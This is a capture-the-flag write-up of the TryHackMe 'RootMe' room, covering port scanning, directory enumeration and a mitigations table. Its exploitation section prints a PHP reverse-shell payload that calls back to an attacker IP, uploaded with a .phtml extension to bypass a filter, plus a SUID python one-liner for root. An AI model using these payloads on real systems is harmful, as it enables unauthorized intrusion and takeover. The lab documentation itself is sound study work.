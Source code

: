 [RootMe](https://tryhackme.com/room/rrootme)

**Date:** [DD/MM/YYYY]  
**Platform:** [TryHackMe / HackTheBox / PicoCTF / Custom]  
**Difficulty:** [Easy]  
**Objective:** [Reconnaissance, getting a shell, privilege escalation, capture the flag.]

---

## Table of Contents

- [1. Summary](#1-summary)
- [2. Methodology](#2-methodology)
- [3. Reconnaissance](#3-reconnaissance)
- [4. Enumeration](#4-enumeration)
- [5. Exploitation](#5-exploitation)
- [6. Privilege Escalation](#6-privilege-escalation)
- [7. Post Exploitation](#7-post-exploitation)
- [8. Flags / Proof](#8-flags--proof)
- [9. Mitigations](#9-mitigations)
- [10. Notes](#10-notes)

---

## 1. Summary

**IP/URL:** [10.10.120.173]  
**Service/Ports:** [22/SSH, 80/HTTP]  
**Entry Point:** [Web shell upload: shell.phtml because .php wasn't accepted.]  
**Privilege Escalation:** [SUID binary]  
**Outcome:** [Root shell obtained, flags captured]  

---

## 2. Methodology

Following the PTES (Penetration Testing Execution Standard):
1. Reconnaissance  
2. Scanning & Enumeration  
3. Exploitation  
4. Privilege Escalation  
5. Post-Exploitation  
6. Reporting

---

## 3. Reconnaissance

### Passive

## Active

nmap -sS -sV -sC 10.10.120.173
```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```

----

## 4. Enumeration
    Web: gobuster
    
Findings:
```
/uploads              (Status: 301) [Size: 316] [--> http://10.10.120.173/uploads/]
/panel                (Status: 301) [Size: 314] [--> http://10.10.120.173/panel/]
```


----

## 5. Exploitation

    On Panel there is an upload option.

    Exploit script:
```
<?php
$sock=fsockopen("10.21.***.***",4444);
$proc=proc_open("/bin/sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```
Set up listener:
```
nc -lvnp 4444
```

Gained Access As: www-data

----

## 6. Privilege Escalation

    Method: SUID
```
/usr/bin/python
```
    
    GTFObin:
    ```
    /usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/bash")'
    ```

Escalated To: root

----

## 7. Post Exploitation

    Root Flag found at /root/root.txt

----

## 8. Flags / Proof

    User Flag: THM{***_***_*_*****}

    Root Flag: THM{********_**********}

    
        

----

## 9. Mitigations

| Vulnerability             | Risk   | Suggested Mitigation                                           |
|---------------------------|--------|-----------------------------------------------------------------|
| SUID bit from Python      | High   | chmod u-s /usr/bin/python                                       |
| Misconfigured Web Server  | High   | Strict File Type Validation; Only allow specific types          |


----

## 10. Notes

    Time spent: [e.g., 30 minutes]

    Tools used: nmap, gobuster

    Lessons learned: [This CTF highlighted the critical risk of insecure file upload mechanisms, where bypassing extension filters led to remote code execution. It also reinforced the importance of auditing SUID binaries, as simple misconfigurations enabled privilege escalation to root.]
